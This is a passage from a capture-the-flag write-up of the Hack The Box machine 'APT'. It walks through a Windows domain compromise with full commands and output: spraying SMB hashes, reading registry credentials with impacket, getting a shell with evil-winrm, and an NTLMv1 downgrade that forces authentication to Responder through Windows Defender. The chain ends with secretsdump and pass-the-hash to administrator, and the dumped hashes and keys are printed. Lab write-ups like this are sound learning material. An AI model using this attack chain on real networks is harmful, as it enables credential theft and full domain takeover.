   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RECORD_GUEST       false            no        Record guest-privileged random logins to the database
   RHOSTS                              yes       The target host(s), range CIDR identifier, or hosts file with syntax
                                                  'file:<path>'
   RPORT              445              yes       The SMB service port (TCP)
   SMBDomain          .                no        The Windows domain to use for authentication
   SMBPass                             no        The password for the specified username
   SMBUser                             no        The username to authenticate as
   STOP_ON_SUCCESS    false            yes       Stop guessing when a credential works for a host
   THREADS            1                yes       The number of concurrent threads (max one per host)
   USERPASS_FILE                       no        File containing users and passwords separated by space, one pair per
                                                  line
   USER_AS_PASS       false            no        Try the username as the password for all users
   USER_FILE                           no        File containing usernames, one per line
   VERBOSE            true             yes       Whether to print output for all attempts

msf6 auxiliary(scanner/smb/smb_login) > set BRUTEFORCE_SPEED 0
BRUTEFORCE_SPEED => 0
msf6 auxiliary(scanner/smb/smb_login) > set RHOSTS apt.htb.local
RHOSTS => apt.htb.local
msf6 auxiliary(scanner/smb/smb_login) > set SMBUSER henry.vinson
SMBUSER => henry.vinson
msf6 auxiliary(scanner/smb/smb_login) > set SMBDomain htb.local
msf6 auxiliary(scanner/smb/smb_login) > set PASS_FILE /home/utopia/Documents/Writeups/Boxes/APT/smb/hash
hash.txt        hashes-pth.txt  
msf6 auxiliary(scanner/smb/smb_login) > set PASS_FILE /home/utopia/Documents/Writeups/Boxes/APT/smb/hashes-pth.txt
PASS_FILE => /home/utopia/Documents/Writeups/Boxes/APT/smb/hashes-pth.txt
msf6 auxiliary(scanner/smb/smb_login) > exploit

[*] dead:beef::b885:d62a:d679:573f:445 - dead:beef::b885:d62a:d679:573f:445 - Starting SMB login bruteforce
[-] dead:beef::b885:d62a:d679:573f:445 - dead:beef::b885:d62a:d679:573f:445 - Failed: 'htb.local\henry.vinson:aad3b435b
51404eeaad3b435b51404ee:e51bd5df404f88091ccf66ff1f802729',
[!] dead:beef::b885:d62a:d679:573f:445 - No active DB -- Credential data will not be saved!
[+] dead:beef::b885:d62a:d679:573f:445 - dead:beef::b885:d62a:d679:573f:445 - Success: 'htb.local\henry.vinson:aad3b435
b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb'
[*] apt.htb.local:445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/smb/smb_login) > 

```

What I provided is an example of what you have to do, and we can see the valid hash is `htb.local\henry.vinson:aad3b435
b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb` 

## User

But we're still done yet, this was also in my opinion a pretty hard part of the box, as I'm not very sure how you'd realize or know this, but I can assume that this is very common attack vector. You can in some situations read the registry with `reg.py` from `impacket`, we can read the registry which will reveal plaintext credentials.

```sh

utopia@utopia: smb » python3 /opt/impacket/examples/reg.py
htb.local/henry.vinson@apt.htb.local -hashes
aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb query -s
-keyName HKU\\
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[!] Cannot check RemoteRegistry status. Hoping it is started...
\Console\
        ColorTable00    REG_DWORD        0x0
        ColorTable01    REG_DWORD        0x800000
        ColorTable02    REG_DWORD        0x8000
        ColorTable03    REG_DWORD        0x808000
        ColorTable04    REG_DWORD        0x80
        ColorTable05    REG_DWORD        0x800080
        ColorTable06    REG_DWORD        0x8080
        ColorTable07    REG_DWORD        0xc0c0c0
        ColorTable08    REG_DWORD        0x808080
        ColorTable09    REG_DWORD        0xff0000
        ColorTable10    REG_DWORD        0xff00
        ColorTable11    REG_DWORD        0xffff00
        ColorTable12    REG_DWORD        0xff
        ColorTable13    REG_DWORD        0xff00ff
        ColorTable14    REG_DWORD        0xffff
        ColorTable15    REG_DWORD        0xffffff
        CtrlKeyShortcutsDisabled        REG_DWORD        0x0
        CursorSize      REG_DWORD        0x19
        EnableColorSelection    REG_DWORD        0x0
        ExtendedEditKey REG_DWORD        0x1
        ExtendedEditKeyCustom   REG_DWORD        0x0
        FaceName        REG_SZ   __DefaultTTFont__
        FilterOnPaste   REG_DWORD        0x1
        FontFamily      REG_DWORD        0x0
        FontSize        REG_DWORD        0x100000
        FontWeight      REG_DWORD        0x0
        ForceV2 REG_DWORD        0x1
        FullScreen      REG_DWORD        0x0
        HistoryBufferSize       REG_DWORD        0x32
        HistoryNoDup    REG_DWORD        0x0
        InsertMode      REG_DWORD        0x1
        LineSelection   REG_DWORD        0x1
        LineWrap        REG_DWORD        0x1
        LoadConIme      REG_DWORD        0x1
        NumberOfHistoryBuffers  REG_DWORD        0x4
        PopupColors     REG_DWORD        0xf5
        QuickEdit       REG_DWORD        0x1
        ScreenBufferSize        REG_DWORD        0x23290078
        ScreenColors    REG_DWORD        0x7
        ScrollScale     REG_DWORD        0x1
        TrimLeadingZeros        REG_DWORD        0x0
        WindowAlpha     REG_DWORD        0xff
        WindowSize      REG_DWORD        0x1e0078
        WordDelimiters  REG_DWORD        0x0
\Console\%SystemRoot%_System32_WindowsPowerShell_v1.0_powershell.exe\
        ColorTable05    REG_DWORD        0x562401
        ColorTable06    REG_DWORD        0xf0edee
        FaceName        REG_SZ   Lucida Console
        FontFamily      REG_DWORD        0x36
        FontWeight      REG_DWORD        0x190
        PopupColors     REG_DWORD        0xf3
        QuickEdit       REG_DWORD        0x1
        ScreenBufferSize        REG_DWORD        0xbb80078
        ScreenColors    REG_DWORD        0x56
        WindowSize      REG_DWORD        0x320078
\Console\%SystemRoot%_SysWOW64_WindowsPowerShell_v1.0_powershell.exe\
        ColorTable05    REG_DWORD        0x562401
        ColorTable06    REG_DWORD        0xf0edee
        FaceName        REG_SZ   Lucida Console
        FontFamily      REG_DWORD        0x36
        FontWeight      REG_DWORD        0x190
        PopupColors     REG_DWORD        0xf3
        QuickEdit       REG_DWORD        0x1
        ScreenBufferSize        REG_DWORD        0xbb80078
        ScreenColors    REG_DWORD        0x56
        WindowSize      REG_DWORD        0x320078
\Control Panel\
...
        Path    REG_EXPAND_SZ
%USERPROFILE%\AppData\Local\Microsoft\WindowsApps;
        TEMP    REG_EXPAND_SZ    %USERPROFILE%\AppData\Local\Temp
        TMP     REG_EXPAND_SZ    %USERPROFILE%\AppData\Local\Temp
\Keyboard Layout\
\Keyboard Layout\Preload\
        1       REG_SZ   00000409
\Keyboard Layout\Substitutes\
\Keyboard Layout\Toggle\
\Network\
\Software\
\Software\GiganticHostingManagementSystem\
        UserName        REG_SZ   henry.vinson_adm
        PassWord        REG_SZ   G1#Ny5@2dvht
...
\Software\Microsoft\Windows\CurrentVersion\Explorer\AutoplayHandlers\EventHandlersDefaultSelection\
        (Default)       REG_SZ
\Software\Microsoft\Windows\CurrentVersion\Explorer\AutoplayHandlers\UserChosenExecuteHandlers\
        (Default)       REG_SZ
\Software\Microsoft\Windows\CurrentVersion\Explorer\FileExts\
\Software\Microsoft\Windows\CurrentVersion\Explorer\FileExts\.3g2\
\Software\Microsoft\Windows\CurrentVersion\Explorer\FileExts\.3g2\OpenWithList\
\Software\Microsoft\Windows\CurrentVersion\Explorer\FileExts\.3g2\UserChoice\
^C[-]))
```
From this, we can can see the credentials `henry.vinson_adm:G1#Ny5@2dvht`, now that we have that we can get a shell with `evil-winrm`


Now that we have a shell with evil-winrm we can need to move onto privilege escalation

```powershell
utopia@utopia: evil-winrm [master] » ruby evil-winrm.rb -i apt.htb.local -u 'henry.vinson_adm' -p 'G1#Ny5@2dvht'

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\henry.vinson_adm\Documents> 
*Evil-WinRM* PS C:\Users\henry.vinson_adm\Documents> type ..\Desktop\user.txt
6ddc<REDACTED>eeb338ea01c
```

## Privilege escalation

After running many privilege escalations scripts such as WinPEAS, JAWS and PowerUp, I noticed the 'ConsoleHost_history' file which sounds very interesting, when we 'cat' it we can see some very interesting things.

```powershell
*Evil-WinRM* PS C:\Users\henry.vinson_adm\Documents> type \Users\henry.vinson_adm\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
$Cred = get-credential administrator
invoke-command -credential $Cred -computername localhost -scriptblock {Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" lmcompatibilitylevel -Type DWORD -Value 2 -Force}
*Evil-WinRM* PS C:\Users\henry.vinson_adm\Documents> 
```

Now, initially these didn't seem very interesting, but further reading [microsoft documentation](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-lan-manager-authentication-level) reveals that this might be more interesting than I initially considered, there is a common post-exploitation technique when you get local administrator on a system to downgrade (weaken) the windows authentcation called **ntlm downgrade attack**, now this is related because it seems like the target has purposely downgraded the authentication to the value of '2' which does this:

> Send NTLM response only : Client devices use NTLMv1 authentication, and they use NTLMv2 session security if the server supports it. Domain controllers accept LM, NTLM, and NTLMv2 authentication.


You can read about this [more here](https://book.hacktricks.xyz/windows/ntlm)

In AD, computers are treated much the same as user accounts, they also contain passwords, and this domain controller is no different, we can ironically abuse Windows Defender with Responder to grab a NTLM hash of the computer account, and crack that hash if we have the challenge '**112233445566778899**' in the hash.

We don't have to restrict ourselves to responder though, we can also use metasploit's capturing auxilary module: `auxiliary/server/capture/smb` but because I like Responder I'll be showcasing it with that, although you should probably start using metasploit's module as Responder is now unfortunately EOL.

On the attacker machine (me/us):

```sh
utopia@utopia: Responder-2.3.0 » sudo python2 Responder.py -I tun0 --lm                                       255 [07:31:23]
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|                                                                                                

           NBT-NS, LLMNR & MDNS Responder 2.2

  Original work by Laurent Gaffie (lgaffie@trustwave.com)
  To kill this script hit CRTL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    DNS/MDNS                   [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [ON]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Fingerprint hosts          [OFF]
[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.5]
    Challenge set              [1122334455667788]


[!] Error starting SSL server on port 443, check permissions or other servers running.[+] Listening for events...
```

And this is the victim/server:

```powershell
*Evil-WinRM* PS C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0> .\MpCmdRun.exe -Scan -ScanType 3 -File \\10.10.14.5\test.txt
Scan starting...
CmdTool: Failed with hr = 0x80508023. Check C:\Users\HENRY~2.VIN\AppData\Local\Temp\MpCmdRun.log for more information
```

Doing this will result in this 

```sh
[SMB] NTLMv1 Client   : 10.10.10.213
[SMB] NTLMv1 Username : HTB\APT$
[SMB] NTLMv1 Hash     : APT$::HTB:95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384:95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384:1122334455667788
[*] Skipping previously captured hash for HTB\APT$
[*] Skipping previously captured hash for HTB\APT$
[*] Skipping previously captured hash for HTB\APT$
```

Now we have a hash with the challenge of `
1122334455667788` (which is specified in the configuration file of Responder)

Now, cracking NTLM hashes can be very time consuming, and this is where the really cool part of the box comes in, the reason we specified that specific challenge in the NTLMv1 hash was so that we can use [crack.sh](https://crack.sh/) to crack it for free! [Here is a further explanation of how](https://crack.sh/netntlm/)

We just have to format the NTLMv1 hash now, so `APT$::HTB:95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384:95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384:1122334455667788` needs to be:
```NTHASH:95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384```



We enter the email to send the cracked hash. We shortly recieve an email that our job has been done.



> Crack.sh has successfully completed its attack against your NETNTLM handshake. The NT hash for the handshake is included below, and can be plugged back into the 'chapcrack' tool to decrypt a packet capture, or to authenticate to the server:  
  Token: $NETNTLM$1122334455667788$95ACA8C7248774CB427E1AE5B8D5CE6830A49B5BB858D384  
  Key: d167c3238864b12f5f82feae86a7f798  
  This run took 32 seconds. Thank you for using crack.sh, this concludes your job.
  
  
 #### Edit:

It seems like the route I went was actually unintended, although for some reason cannot get it to work anymore, which is **really** frustrating, I'm just unable to replicate it from my notes or anything. But besides that, I'll explain what I did at the time with the unintended route.

Now, remember when I mentioned how AD computer objects are treated similary to AD user accounts? Well, turns out we can abuse that hash we just cracked for a silver ticket attack, in fact, the description of this attack on [Hacktricks](https://book.hacktricks.xyz/windows/active-directory-methodology/silver-ticket) described a scenario which is really similar to ours

So we basically utilized a silver ticket attack, craft a TGS, gotten shell as administrator and boom, but since this doesn't seem to unfortunately work anymore, I'm just going to show you the intended route.

We use `secretsdump.py` to dump the hashes of all users, including the administrator one.

```
┌──(root💀kali)-[~/impacket/examples]
└─# python3 secretsdump.py -dc-ip apt.htb.local -hashes :d167c3238864b12f5f82feae86a7f798 'htb.local/APT$@apt.htb.local'                        2 ⨯
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c370bddf384a691d811ff3495e8a72e2:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:738f00ed06dc528fd7ebb7a010e50849:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
henry.vinson:1105:aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb:::
henry.vinson_adm:1106:aad3b435b51404eeaad3b435b51404ee:4cd0db9103ee1cf87834760a34856fef:::
APT$:1001:aad3b435b51404eeaad3b435b51404ee:d167c3238864b12f5f82feae86a7f798:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:72f9fc8f3cd23768be8d37876d459ef09ab591a729924898e5d9b3c14db057e3
Administrator:aes128-cts-hmac-sha1-96:a3b0c1332eee9a89a2aada1bf8fd9413
Administrator:des-cbc-md5:0816d9d052239b8a
krbtgt:aes256-cts-hmac-sha1-96:b63635342a6d3dce76fcbca203f92da46be6cdd99c67eb233d0aaaaaa40914bb
krbtgt:aes128-cts-hmac-sha1-96:7735d98abc187848119416e08936799b
krbtgt:des-cbc-md5:f8c26238c2d976bf
henry.vinson:aes256-cts-hmac-sha1-96:63b23a7fd3df2f0add1e62ef85ea4c6c8dc79bb8d6a430ab3a1ef6994d1a99e2
henry.vinson:aes128-cts-hmac-sha1-96:0a55e9f5b1f7f28aef9b7792124af9af
henry.vinson:des-cbc-md5:73b6f71cae264fad
henry.vinson_adm:aes256-cts-hmac-sha1-96:f2299c6484e5af8e8c81777eaece865d54a499a2446ba2792c1089407425c3f4
henry.vinson_adm:aes128-cts-hmac-sha1-96:3d70c66c8a8635bdf70edf2f6062165b
henry.vinson_adm:des-cbc-md5:5df8682c8c07a179
APT$:aes256-cts-hmac-sha1-96:4c318c89595e1e3f2c608f3df56a091ecedc220be7b263f7269c412325930454
APT$:aes128-cts-hmac-sha1-96:bf1c1795c63ab278384f2ee1169872d9
APT$:des-cbc-md5:76c45245f104a4bf
[*] Cleaning up... 
```

and we use evil-winrm combined with passing the administrator's hash and we should be able to get a root/administrator shell.

```
┌──(root💀kali)-[~/impacket/examples]
└─# evil-winrm -i apt.htb.local -u 'administrator' -H c370bddf384a691d811ff3495e8a72e2                                                          1 ⨯

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
htb\administrator
```

## Root

Now we have root shell and we can grab the root.txt flag!

```
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop>      dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        4/10/2021   6:27 PM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
0db<REDACTED>2b0c59158
*Evil-WinRM* PS C:\Users\Administrator\Desktop>
```


Thank you for reading, I hope you enjoyed it, maybe learned a thing or two that you can take away from this and good luck on your future pentests / CTFs!
